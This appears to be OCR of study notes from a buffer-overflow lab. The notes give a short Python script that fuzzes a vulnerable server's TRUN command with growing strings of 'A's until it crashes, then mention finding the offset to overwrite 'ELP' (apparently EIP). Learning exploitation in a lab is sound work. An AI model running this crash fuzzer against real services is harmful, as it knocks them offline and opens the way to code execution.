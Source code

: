 Fuzzing 

    Once we find what is vuln fuzzing is attacking the command specifically  

    This script sends a bunch of A's and returns how many it takes to crash the server  

    #!/usr/bin/python 

    import sys, socket 

    from time import sleep 

      

    buffer = "A" * 100 

      

    while True: 

            try: 

                    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

                    s.connect(('10.0.2.4',9999)) 

      

                    s.send(('TRUN /.:/' + buffer)) 

                    s.close() 

                    sleep(1) 

                    buffer = buffer + "A"*100 

      

            except: 

                    print "Fuzzing crashed at %s bytes" % str(len(buffer)) 

                    sys.exit() 

    Once the vuln server crashes you know what it will take to cause the crash 

    Next we will find the offset to find the exact place where to overwrite the ELP 